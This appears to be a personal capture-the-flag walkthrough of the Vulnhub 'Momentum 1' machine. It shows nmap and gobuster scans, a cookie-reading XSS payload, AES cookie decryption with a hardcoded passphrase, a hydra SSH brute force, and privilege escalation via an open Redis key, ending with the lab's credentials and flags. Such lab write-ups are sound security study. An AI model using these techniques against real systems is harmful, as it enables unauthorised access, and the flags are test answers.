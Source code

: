 ```yaml
---
title: Vulnhub Momentum 1
date: 2022-05-24 12:00:00 -0700
categories: [ctf]
tags: [hacking,cybersecurity,ctf,writeup] # TAG names should always be lowercase
---
```


# Momentum 1
---

First i started off with a network scan to obtain the IP and services of the box

```bash
nmap $IP/24
nmap -sC -sV -oN nmap/initial $IP
```

once done i see that their is an **ssh** port and an **http** port open on the box

seeing that it is a webserver i decided to start my enumeration to see if their are any extra pages i might miss.

```bash
gobuster dir -u http://$IP/ -w ~/path/to/wordlist.txt
```

looking through the output i see nothing useful so i go digging in the webpage with inspect element.
while looking through the files and what happens when reloaded i look at the source code of the site. along with the js files and css.

in the js file i notice this 

```javascript
function viewDetails(str) {

  window.location.href = "opus-details.php?id="+str;
}

/*
var CryptoJS = require("crypto-js");
var decrypted = CryptoJS.AES.decrypt(encrypted, "SecretPassphraseMomentum");
console.log(decrypted.toString(CryptoJS.enc.Utf8));
*/
```

having just recently started looking at Javascript i see that their is another webpage that my enumeration couldnt find.
i emediatly take the bit of url their and past it into the url of the site.
in doing so i see that whatever i put down in the **id=** field will be displayed on the webpage. 
again having just recently started messing with **XSS** i go and try to exicute an alert and it worked.( pretty simple )

i tried multiple different things such as: a remote shell (didnt work), LFI (didnt work), even some DB scripts, and nothing. 
then while doing some research i saw that most people when given a cookie try stuff with that.
so i went and looked at the cookie in inspect-element -> application -> cookie or by causing the page to execute 

```HTML
<script> alert(document.cookie)</script>
```

it looked to be encrypted and with the info the js file gave me i figured it was using crypto-js with AES to encrypt it. so i looked online for a decoder and found one [here](https://stackblitz.com/edit/cryptojs-aes-encrypt-decrypt?file=index.js) that was able to decrypt it for me.
it needed the password in order to decrypt which i saw in the js file that it was 
**" SecretPassphraseMomentum "**
which in turn gave me this as the text 
**" auxerre-alienum## "** 

now with this i figured with the ssh port open it might be a password but what would i use as the username and password?
given the decrypted passphrase i figured it had to be some permutation of it so i made a [[passphrase.txt|wordlist]] to bruteforce it with hydra.

```bash
hydra -L wordlist.txt -P wordlist.txt <IP of target> ssh
```

and bam i got the username and password

```
[22][ssh] host: <ip>   login: auxerre   password: auxerre-alienum##
```

so i ssh'd in with the credentials

```bash
ssh auxerre@<ip>
auxerree@<ip> password: auxerre-alienum##
```

once in i see a **user.txt** i cat it out and 

```
[ Momentum - User Owned ]
---------------------------------------
flag : 84157165c30ad34d18945b647ec7f647
---------------------------------------
```

First flag!!!

now to get root.

i imported [[linpeas.sh|linpeas]] to autoenumerate and found that their was an open port on 6379 listening on localhost.
after a little research i see that it is a [[6379-pentesting-redis|redis]] instance and that it potentialy could be used as a privesc vector.
looking at the documentation on what commands to do to log in i found out i can just use 

```bash
redis-cli
```

and then similar to a ftp connection i can find info in the instance. 
using the command

```redis
keys *
```

i see that their is a key called rootpass
and so i 

```redis
get rootpass
```

and i recieved this string
**m0mentum-al1enum##**

i then logged in as root with the password

```bash
su root 
Password: m0mentum-al1enum##
```

once logged in i cat root.txt in /root and get

```
[ Momentum - Rooted ]
---------------------------------------
Flag : 658ff660fdac0b079ea78238e5996e40
---------------------------------------
by alienum with <3
```

i now have the final flag!!
